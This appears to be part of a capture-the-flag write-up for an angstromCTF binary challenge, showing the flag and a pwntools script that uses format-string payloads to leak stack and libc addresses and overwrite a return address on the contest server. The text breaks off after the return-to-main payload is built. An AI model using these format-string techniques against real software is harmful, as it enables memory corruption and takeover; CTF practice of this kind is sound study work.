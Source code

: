 ```bash
actf{us1ng_c_15_n3v3r_4_g00d_1d34}
```

## Exploit listing

```
from pwn import *

def write(what, where):
    what = what & 0xffffff
    hi_byte = what >> 16
    low_word = what & 0xffff

    log.info(f'printing {hi_byte} to {where +2} and {low_word} to {where}')

    payload = b'%12$'
    payload += str(hi_byte).encode()
    payload += b's%12$hhn'
    payload += b'%12$'
    payload += str(low_word -hi_byte).encode()
    payload += b's%13$hn'
    payload += (32-len(payload))*b' '
    payload += p64(where+2)
    payload += p64(where)
    return payload

def check_payload(payload):
    if b'\n' in payload:
        log.error('error, payload contains newline')

context.log_level = "info"

elf = ELF('./library_in_c')
libc = ELF('./libc.so.6')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
main = elf.symbols['main']

#r = process('./library_in_c')
r = remote('shell.actf.co', 20201)
#r = remote('localhost', 8080)

payload_leak = '%24$p %27$p'

r.sendline(payload_leak)
s = r.recvline()
s = r.recvline()
s = r.recvline()

stack_leak = int(s.split(b' ')[-2], 16)
ret_addr = stack_leak -216
libc_leak = int(s.split(b' ')[-1], 16)
libc_address = libc_leak - 0xf0 - libc.symbols['__libc_start_main']
libc_system = libc_address + libc.symbols['system']


log.info(f'return address stored at {hex(ret_addr)}')
log.info(f'libc at {hex(libc_address)}')

payload_ret2main = b'%20$n%64s%21$hn%1799s%22$hn     '
payload_ret2main += p64(ret_addr + 4)
payload_ret2main += p64(ret_addr + 2)
payload_ret2main += p64(ret_addr)

```